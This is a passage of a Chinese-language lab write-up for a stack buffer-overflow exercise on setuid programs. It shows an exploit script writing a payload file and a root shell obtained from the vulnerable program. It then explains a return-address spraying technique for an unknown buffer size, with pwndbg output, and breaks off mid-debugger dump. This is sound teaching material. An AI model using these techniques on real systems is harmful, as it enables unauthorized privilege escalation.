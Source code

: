 ```python

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

**执行漏洞程序，获取到root权限shell**

```shell
❯ python3 exploit.py                                    
❯ ./stack-L1
Input size: 517
# whoami                                                                       
root
# exit 
```

### Task4：对未知buffer大小的程序进行攻击

由于buffer大小未知，可以考虑喷射方法，将payload前若干项全部修改为要返回的地址，由于给定限定条件buffer大小位于100到200，所以可以考虑在前200+4项全部覆盖为ret_addr。这样总会将ebp地址覆盖为要返回的地址。

选择攻击stack-L2，首先进行gdb调试，获取ebp地址：

```shell
pwndbg> b bof
Breakpoint 1 at 0x1221: file stack.c, line 20.
pwndbg> r
Starting program: /home/bronya/Documents/SJTU/lab/buffer-overflow/setuid/Labsetup/code/stack-L2-dbg 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Input size: 517

Breakpoint 1, bof (str=0xffffccc3 '\220' <repeats 112 times>, "\020\316\377\377", '\220' <repeats 84 times>...) at stack.c:20
20	    strcpy(buffer, str);       
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────[ REGISTERS / show-flags off / show-compact-regs off ]─────────────
*EAX  0x56558fb8 (_GLOBAL_OFFSET_TABLE_) ◂— 0x3ec0
*EBX  0x56558fb8 (_GLOBAL_OFFSET_TABLE_) ◂— 0x3ec0
*ECX  0x60
*EDX  0xffffcca0 —▸ 0xffffcfa4 —▸ 0xffffd18d ◂— '/home/bronya/Documents/SJTU/lab/buffer-overflow/setuid/Labsetup/code/stack-L2-dbg'
*EDI  0xf7ffcb80 (_rtld_global_ro) ◂— 0x0
*ESI  0xffffcfa4 —▸ 0xffffd18d ◂— '/home/bronya/Documents/SJTU/lab/buffer-overflow/setuid/Labsetup/code/stack-L2-dbg'
*EBP  0xffffc898 —▸ 0xffffcca8 —▸ 0xffffced8 —▸ 0xf7ffd020 (_rtld_global) —▸ 0xf7ffda40 ◂— ...
*ESP  0xffffc7f0 ◂— 0x205
*EIP  0x56556221 (bof+20) ◂— 0xff08ec83
───────────────────────[ DISASM / i386 / set emulate on ]───────────────────────
 ► 0x56556221 <bof+20>    sub    esp, 8
   0x56556224 <bof+23>    push   dword ptr [ebp + 8]
   0x56556227 <bof+26>    lea    edx, [ebp - 0xa8]
   0x5655622d <bof+32>    push   edx
   0x5655622e <bof+33>    mov    ebx, eax
   0x56556230 <bof+35>    call   strcpy@plt                    <strcpy@plt>
 
   0x56556235 <bof+40>    add    esp, 0x10
   0x56556238 <bof+43>    mov    eax, 1
   0x5655623d <bof+48>    mov    ebx, dword ptr [ebp - 4]
   0x56556240 <bof+51>    leave  
   0x56556241 <bof+52>    ret    
───────────────────────────────[ SOURCE (CODE) ]────────────────────────────────
In file: /home/bronya/Documents/SJTU/lab/buffer-overflow/setuid/Labsetup/code/stack.c
   15 int bof(char *str)
```